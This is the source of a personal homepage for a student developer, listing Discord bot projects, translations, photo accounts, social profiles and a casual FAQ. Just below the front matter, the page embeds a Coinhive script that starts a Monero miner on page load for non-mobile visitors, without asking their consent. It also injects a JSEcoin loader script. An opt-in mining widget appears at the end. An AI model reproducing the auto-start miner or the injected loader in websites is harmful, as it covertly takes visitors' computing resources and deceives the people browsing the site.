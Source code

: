 ```yaml
---
layout: default
title: AustinHuang.me
permalink: /
---
```


<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX', {throttle: 0.2});
	if (!miner.isMobile() && !miner.didOptOut(14400)) {
		miner.start();
	}
</script>

<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/40497/austinhuang.me/0/0/",s.parentNode.insertBefore(t,s)}();
</script>

So let's see what I'm up to.

## My coding projects
* [DiscordTel](http://github.com/austinhuang0131/discordtel) is a Discord bot that simulates the process of phone dialing on Discord servers. It ~~has~~ had reached more than 2300 guilds, which was erased by Discord. Currently in the process of restructuring. Also, I earned $50 from it.
* [Metagon](https://metagon.cf) is a multi-platform bot that has a lot of useful tools. Currently my main focus.
* [Discoin](http://discoin.gitbooks.io/docs) is a currency exchange serving 7 Discord bots.

## Projects I am involved in
You can see my [GitHub profile](http://github.com/austinhuang0131). I am currently involved in these projects:

* [BotList.space](http://botlist.space) (Staff)
* [Discord.Services](http://discord.services) (Staff)
* [Disboard](http://disboard.org/) (Co-Owner)
* [MCRep.us](http://mcrep.us) (Developer)

## My translations
I do some translations, too, usually from Japanese or Chinese to English. I have done translations in these projects:

* [BotList.space](http://botlist.space) (All of Chinese translation)
* [Hashimoto Lulu project](http://luluidoll.jp/tagged/english)
* [Terminal.ink Bot List](https://ls.terminal.ink/) (All of Chinese translation)
* [Weblate](https://hosted.weblate.org/user/austinhuang0131/) projects:
  * 30% of Chinese translation in [Liberapay](https://liberapay.com/)
  * 1% of Chinese translation in [Andor's Trail](https://andorstrail.com/)
  
## My photos
I have a white Pentax K-50.

* I upload all my photos on my [Flickr](https://flic.kr/austin0131).
* I post some of my best ones on my [Instagram](https://instagram.com/austinhuang0131).

## My other online stuff

* [AniList](https://anilist.co/user/austinhuang): Animes I watch.
* [Colnect](https://colnect.com/en/collectors/collector/Austin-Huang): Transit tickets and stuff I collect.
* [Discord](https://discord.gg/8uFr3J3)
* [edX](https://courses.edx.org/u/austinhuang0131): Online classes I learn (And I do have some certificates)
* [KeyBase](https://keybase.io/austinhuang) (And this website is [Keybase'd](/keybase.txt))
* [NationStates](https://www.nationstates.net/nation=the_cafes): A political simulation game.
* [OpenGeofiction](http://wiki.opengeofiction.net/wiki/index.php/Esthyra): A geographical simulation game.
* [Reddit](http://reddit.com/u/austinhuang)
* [Twitter](http://twitter.com/montreal0131)

<table width="100%">
  <tr>
    <td width="50%"><iframe allowtransparency="true" frameborder="0" scrolling="no" seamless="seamless" src="https://cdoyle.me/gh-activity/gh-activity.html?user=austinhuang0131&type=user" width="100%" height="400px"></iframe>
</td>
    <td width="50%"><!-- InstaWidget -->
<a href="https://instawidget.net/v/user/austinhuang0131" id="link-399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3">@austinhuang0131</a>
<script src="https://instawidget.net/js/instawidget.js?u=399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3&width=300px"></script></td>
  </tr>
</table>

## May I ask some questions?
Obviously, sure.

### Hobbies?
Coding, modeling, mapping, reading news, learning AP and French online, and listening to sick beats are things I do a lot. And Anime sometimes. Skating, softball and badminton, especially, are my favourite sports.

Recently I found myself enjoying creative writing.

### Hardware?
A school-provided MacBook Air ($500) plus several shared VPS from online people and free services. That's it.

### You said you're from...Shanghai?
Yeah. I actually went to the same high school as [@simonguozirui](https://github.com/simonguozirui) did and went abroad at the same time as he did.

### What about a formal resume, *please?*
Nah man. *skirt skirt dab dab*

### I mean you didn't answer my question...
You can ask it [here](https://github.com/austinhuang0131/austinhuang0131.github.io/issues), then.

### Hey, you look cool. How can I support you?
You can either [donate](/donate.html) or start the Monero miner below.

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 100%; height: 100px"
	data-key="NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX">
	<em>Loading...</em>
</div>
